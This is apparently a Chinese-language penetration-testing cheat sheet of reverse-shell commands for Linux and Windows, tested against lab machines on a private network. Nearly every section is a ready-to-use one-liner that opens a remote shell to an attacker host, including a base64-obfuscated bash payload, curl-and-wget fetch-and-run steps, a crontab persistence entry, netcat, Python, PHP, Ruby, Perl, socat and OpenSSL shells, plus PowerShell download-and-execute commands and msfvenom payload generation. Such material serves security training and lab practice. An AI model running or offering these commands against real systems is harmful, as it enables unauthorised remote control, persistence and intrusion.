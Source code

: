 # 反弹Shell-Linux

```bash
【监听端】centos: 192.168.35.152
【被控端】kali: 192.168.35.128
    
# 监听端执行
[root@localhost ~]# nc -vvl 7777
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

## bash

```python
┌──(root@kali)-[/home/kali]
└─# bash -i >& /dev/tcp/192.168.35.152/7777 0>&1     # 执行失败                                   
zsh: 没有那个文件或目录: /dev/tcp/192.168.35.152/7777 
```

## bash base64

```bash
# /bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzUuMTUyLzc3NzcgMD4mMSAgIA==}|{base64,-d}|{bash,-i}'
```

## bash base64 URLencode

```bash
# /bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
bash -c '{echo,L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMzUuMTUyLzc3NzcgMD4mMSAgIA%3D%3D}|{base64,-d}|{bash,-i}'
```

## nc

```bash
nc -e /bin/bash 192.168.35.152 7777
mknod backpipe p && nc 192.168.35.152 7777 0<backpipe | /bin/bash 1>backpipe 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.35.152 7777 >/tmp/f
```

```
nc -lvnp 8000 -e /bin/bash
```
## ncat

```bash
ncat  192.168.35.152 7777 -e /bin/bash
ncat --udp 192.168.35.152 7777 -e /bin/bash
```

## curl

攻击方：

```bash
cat bash.html
/bin/bash -i >& /dev/tcp/192.168.35.152/7777 0>&1
```

被控端：

```
curl 192.168.35.152/bash.html|bash
```

## http

攻击方：

```bash
# 编写shell脚本并启动http服务器
echo "bash -i >& /dev/tcp/192.168.35.152/7777 0>&1" > shell.sh
python2环境下：python -m SimpleHTTPServer 80
python3环境下：python -m http.server 80
```

被控端：

```bash
# 上传shell.sh文件
wget 192.168.35.152/shell.sh
# 执行shell.sh文件
bash shell.sh
```

## crontab

```bash
* * * * * root bash -i >& /dev/tcp/192.168.35.152/7777  0>&1
```

## whois

```bash
# 只能执行指定命令，如pwd命令
whois -h 192.168.35.152 -p 7777 `pwd` 
```

## python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.35.152",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## php

```bash
php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("192.168.35.152",7777).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'  # 执行失败
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.35.152","7777");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## socat

```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.35.152:7777
```

## perl

```bash
perl -e 'use Socket;$i="192.168.35.152";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## php

```bash
php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## openssl

```bash
# 监听端
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 7777
# or
ncat --ssl -vv -l -p 7777

# 受控端
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.35.152:7777 > /tmp/s; rm /tmp/s
```

# 反弹Shell-Windows

- Windows下的反弹shell仅测试了nc，执行成功。

```bash
【监听端】centos: 192.168.35.152
【被控端】windows: 192.168.35.1
    
# 监听端执行
[root@localhost ~]# nc -vvl 7777
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::7777
Ncat: Listening on 0.0.0.0:7777
```

## powercat

项目地址：https://github.com/besimorhino/powercat

```bash
System.Net.Webclient.DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.35.152 -p 7777 -e cmd
```

## nc

```bash
nc 192.168.35.152 7777 -e c:\windows\system32\cmd.exe
```

## nishang

Nishang是一个基于PowerShell的攻击框架，整合了一些PowerShell攻击脚本和有效载荷，可反弹TCP/ UDP/ HTTP/HTTPS/ ICMP等类型shell。

项目地址：https://github.com/samratashok/nishang

```bash
# 将nishang下载到攻击者本地，在目标机使用powershell执行以下命令
IEX (New-Object Net.WebClient).DownloadString('http://192.168.159.134/nishang/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.35.152 -port 7777
```

## Reverse UDP shell

```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.35.152/nishang/Shells/Invoke-PowerShellUdp.ps1');

Invoke-PowerShellUdp -Reverse -IPAddress 192.168.35.152 -port 7777
```

## MSF

```bash
# 找出各类反弹一句话payload的路径信息
msfvenom -l payloads | grep 'cmd/windows/reverse'

# 生成反弹shell，复制粘贴到靶机上运行
msfvenom -p cmd/windows/reverse_powershell LHOST=192.168.35.152 LPORT=7777
```

